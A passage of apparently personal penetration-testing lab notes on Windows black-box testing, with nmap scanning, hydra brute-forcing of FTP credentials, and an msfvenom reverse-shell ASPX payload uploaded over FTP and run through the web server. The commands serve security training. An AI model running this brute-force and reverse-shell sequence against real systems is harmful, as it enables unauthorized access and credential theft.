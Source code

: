         * agent will be active in starkiller

## Windows Exploitation

### Windows black box Penetration Test

* Zero knowledge about target system, all the phases of penetration testing are conducted by penetration tester

### port scanning and enumeration

* hosts /etc/hosts --> has the target
* nmap -sV -O -T4 -PA -sC target-ip

### targeting FTP

* try anonymous login
* hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.4.21.62 ftp
    * reveals account details
* hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.4.21.62 ftp
    * reveals another account details
* msfvenom -p windows/shell/reverse_tcp LHOST=10.10.22.4 LPORT=1234 -f aspx > shell.aspx
    * upload file to ftp using compromised creds
    * start a listener on msfconsole
    * run the file in browser (NOTE: the microsoft HTTP server and FTP server are linked, any file uploaded to ftp is visible on HTTP server, so it can be run using browser)
    * This reverse shell attempt was unsuccessful